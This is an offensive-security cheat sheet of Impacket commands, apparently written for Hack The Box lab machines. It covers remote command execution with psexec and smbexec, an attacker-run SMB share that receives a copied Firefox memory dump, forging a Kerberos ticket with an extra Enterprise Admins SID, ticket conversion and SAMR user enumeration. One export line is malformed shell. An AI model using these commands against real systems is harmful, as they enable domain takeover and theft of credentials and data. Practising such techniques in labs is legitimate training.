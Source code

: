 
## Impacket - PSExec
```bash
psexec.py 'user:pass@ipaddr'
```
## Impacket - SMBServer
```bash
smbserver.py -smb2support -username guest -password guest share ./

# Windows Connection
net use x: \\10.10.14.165\share /user:guest guest

# Copy Files
cmd /c "copy firefox.dmp X:\"
```
## Impacket - SMBExec
```bash
impacket-smbexec -k -no-pass -dc-ip 10.10.11.24 CORP.GHOST.HTB/administrator@dc01.ghost.htb
```
## Impacket - TicketConvertor
```bash
ticketConverter.py /PATH/ticket.kirbi ticket.ccache

export=KRB5CCNAME=/PATH/ticket.ccache
```
## Impacket - Ticketer
```bash
impacket-ticketer -aesKey b0eb79f35055af9d61bcbbe8ccae81d98cf63215045f7216ffd1f8e009a75e8d -domain-sid S-1-5-21-2034262909-2733679486-179904498 -extra-sid S-1-5-21-4084500788-938703357-3654145966-519 -domain corp.ghost.htb administrator
```
## Impacket - Samrdump.py
```bash
samrdump.py 10.129.14.128
```


